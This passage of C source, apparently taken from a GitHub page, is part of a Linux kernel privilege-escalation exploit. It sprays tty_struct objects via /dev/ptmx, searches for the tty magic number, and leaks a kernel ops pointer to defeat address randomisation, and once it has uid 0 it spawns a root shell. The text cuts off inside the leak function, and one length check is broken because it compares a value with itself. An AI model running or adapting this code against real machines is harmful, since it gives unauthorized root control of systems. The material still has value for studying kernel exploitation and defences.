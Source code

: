 ```c
    if (uid != 0) {
        err("We are not root, wtf?");
    }

    info("We got root, spawning shell!");
    system("/bin/sh");
    exit(0);
}

// Open a char device, just exit on error, this is exploit code
int open_device(char *dev, int flags) {
    int fd = -1;
    if (!dev) {
        err("NULL ptr given to `open_device()`");
    }

    fd = open(dev, flags);
    if (fd < 0) {
        err("Failed to open '%s'", dev);
    }

    return fd;
}

// Spray kmalloc-1024 sized '/dev/ptmx' structures on the kernel heap
void alloc_ptmx() {
    int fd = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (fd < 0) {
        err("Failed to open /dev/ptmx");
    }

    open_ptmx[num_ptmx] = fd;
    num_ptmx++;
}

// Check to see if we have a reference to a tty_struct by reading in the magic
// number for the current allocation in our slab
bool found_ptmx(int fd) {
    unsigned char magic_buf[4];
    if (fd < 0) {
        err("Bad fd given to `found_ptmx()`\n");
    }

    ssize_t bytes_read = read(fd, magic_buf, 4);
    if (bytes_read != (ssize_t)bytes_read) {
        err("Failed to read enough bytes from fd: %d", fd);
    }

    if (*(int32_t *)magic_buf != 0x5401) {
        return false;
    }

    return true;
}

// Leak a tty_struct->ops field which is constant offset from kernel base
uint64_t leak_ops(int fd) {
    if (fd < 0) {
        err("Bad fd given to `leak_ops()`");
    }

    /* tty_struct {
        int magic;      // 4 bytes
```